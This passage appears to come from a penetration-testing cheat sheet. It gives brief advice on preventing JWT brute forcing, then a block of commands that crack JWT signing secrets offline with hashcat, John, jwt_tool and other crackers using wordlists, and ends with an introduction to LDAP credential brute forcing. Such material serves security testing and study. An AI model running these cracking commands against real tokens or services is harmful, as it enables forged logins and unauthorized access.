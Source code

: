 #### Best Practices to Prevent Brute Forcing

To prevent brute forcing attacks on JWTs, it is important to follow these best practices:

- Use a strong secret key: Choose a secret key that is long, complex, and difficult to guess.
- Implement rate limiting: Limit the number of requests that can be made within a certain time period to prevent automated brute forcing.
- Use JWT libraries with built-in protections: Some JWT libraries have built-in protections against brute forcing attacks, such as rate limiting and IP blocking.

#### Conclusion

Brute forcing JWTs can be a challenging task, but with the right tools and best practices in place, it is possible to prevent unauthorized access to sensitive information. By following the recommended guidelines, you can enhance the security of your JWT-based authentication systems.
```bash
#hashcat
hashcat -m 16500 -a 0 jwt.txt .\wordlists\rockyou.txt

#https://github.com/Sjord/jwtcrack
python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt

#John
john jwt.txt --wordlist=wordlists.txt --format=HMAC-SHA256

#https://github.com/ticarpi/jwt_tool
python3 jwt_tool.py -d wordlists.txt <JWT token>

#https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc 1234567890 8

#https://github.com/mazen160/jwt-pwn
python3 jwt-cracker.py -jwt eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc -w wordlist.txt

#https://github.com/lmammino/jwt-cracker
jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
```
### LDAP

LDAP (Lightweight Directory Access Protocol) is a protocol used to access and manage directory information. It is commonly used for authentication and authorization purposes in various systems.

#### Brute-Force Attack

A brute-force attack is a method used to gain unauthorized access to a system by systematically trying all possible combinations of usernames and passwords until the correct one is found. This attack can be used against LDAP servers to attempt to guess valid credentials and gain access to the directory.
